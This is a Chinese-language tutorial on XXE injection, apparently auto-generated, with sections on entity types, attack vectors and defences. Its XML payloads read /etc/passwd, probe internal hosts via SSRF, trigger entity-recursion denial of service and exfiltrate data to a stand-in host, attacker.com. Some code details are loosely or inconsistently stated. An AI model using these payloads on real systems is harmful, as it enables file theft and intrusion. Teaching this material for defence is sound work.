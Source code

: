 # XXE外部实体注入技术文档

## 1. 概述

### 1.1 定义
XXE（XML External Entity Injection，XML外部实体注入）是一种针对XML处理器的安全漏洞，攻击者通过构造恶意XML文档，利用外部实体引用功能，实现对目标系统的信息泄露、文件读取、服务器端请求伪造（SSRF）等攻击。

### 1.2 背景
XML（可扩展标记语言）是一种广泛使用的数据交换格式，常用于Web服务、配置文件、文档存储等场景。XML处理器在处理XML文档时，支持外部实体的引用功能，这一特性为XXE漏洞的利用提供了可能。

## 2. 原理

### 2.1 XML实体
XML实体是XML文档中的一种特殊结构，用于定义可重用的数据片段。实体可以分为内部实体和外部实体：

- **内部实体**：在文档内部定义的实体，如 `<!ENTITY foo "bar">`。
- **外部实体**：引用外部资源（如文件、URL）的实体，如 `<!ENTITY foo SYSTEM "file:///etc/passwd">`。

### 2.2 外部实体注入
当XML处理器解析包含外部实体的XML文档时，如果未对外部实体进行限制，攻击者可以通过构造恶意外部实体，读取服务器上的敏感文件、发起网络请求等。

### 2.3 攻击流程
1. 攻击者构造包含恶意外部实体的XML文档。
2. 目标系统接收并解析该XML文档。
3. XML处理器解析外部实体，访问攻击者指定的资源。
4. 攻击者通过响应获取敏感信息或实现其他攻击目的。

## 3. 分类

### 3.1 基于攻击目标
- **文件读取**：通过 `file://` 协议读取服务器上的文件。
- **SSRF**：通过 `http://` 或 `ftp://` 协议发起网络请求，探测内网服务。
- **拒绝服务（DoS）**：通过引用大量数据或递归实体，导致系统资源耗尽。

### 3.2 基于利用方式
- **直接XXE**：XML文档直接包含恶意外部实体。
- **盲XXE**：攻击者无法直接获取响应，但可以通过外带数据（OOB）或延迟响应等方式确认漏洞存在。

## 4. 技术细节

### 4.1 实体声明
外部实体通过 `<!ENTITY>` 标签声明，常见的声明方式如下：

```xml
<!ENTITY foo SYSTEM "file:///etc/passwd">
```

### 4.2 实体引用
实体通过 `&实体名;` 的方式引用，如：

```xml
<root>&foo;</root>
```

### 4.3 参数实体
参数实体是DTD（文档类型定义）中的一种特殊实体，用于在DTD内部使用。参数实体通过 `%` 符号声明和引用：

```xml
<!ENTITY % foo SYSTEM "file:///etc/passwd">
%foo;
```

### 4.4 盲XXE利用
盲XXE通常通过外带数据（OOB）或延迟响应来确认漏洞存在。例如，通过DNS查询或HTTP请求将数据发送到攻击者控制的服务器：

```xml
<!ENTITY % foo SYSTEM "http://attacker.com/?data=%file;">
%foo;
```

### 4.5 递归实体
递归实体通过引用自身或其他实体，导致XML处理器陷入无限循环，可能引发拒绝服务攻击：

```xml
<!ENTITY foo "&bar;">
<!ENTITY bar "&foo;">
```

## 5. 攻击向量

### 5.1 文件读取
通过 `file://` 协议读取服务器上的敏感文件，如 `/etc/passwd`、`/etc/shadow` 等：

```xml
<!ENTITY foo SYSTEM "file:///etc/passwd">
<root>&foo;</root>
```

### 5.2 SSRF
通过 `http://` 或 `ftp://` 协议发起网络请求，探测内网服务或访问受限资源：

```xml
<!ENTITY foo SYSTEM "http://internal-server/">
<root>&foo;</root>
```

### 5.3 盲XXE
通过外带数据或延迟响应确认漏洞存在，如通过DNS查询或HTTP请求将数据发送到攻击者控制的服务器：

```xml
<!ENTITY % foo SYSTEM "http://attacker.com/?data=%file;">
%foo;
```

## 6. 防御思路

### 6.1 禁用外部实体
在XML处理器中禁用外部实体解析，是最有效的防御措施。例如，在Java中可以通过以下方式禁用外部实体：

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

### 6.2 使用安全的XML库
选择支持安全配置的XML库，并确保默认配置禁用外部实体解析。例如，Python的 `lxml` 库默认禁用外部实体：

```python
from lxml import etree
parser = etree.XMLParser(resolve_entities=False)
```

### 6.3 输入验证
对用户输入的XML文档进行严格的验证，确保不包含恶意实体或外部引用。

### 6.4 输出编码
在输出XML文档时，对敏感数据进行编码，防止信息泄露。

### 6.5 安全配置
在Web服务器和应用服务器中，配置安全策略，限制XML处理器的功能，如禁用DTD、外部实体等。

## 7. 总结

XXE外部实体注入是一种严重的安全漏洞，可能导致敏感信息泄露、服务器端请求伪造、拒绝服务等攻击。通过禁用外部实体、使用安全的XML库、输入验证、输出编码和安全配置等措施，可以有效防御XXE攻击。安全从业人员应充分了解XXE的原理和利用方式，确保系统在处理XML文档时的安全性。

---

*文档生成时间: 2025-03-11 13:05:58*
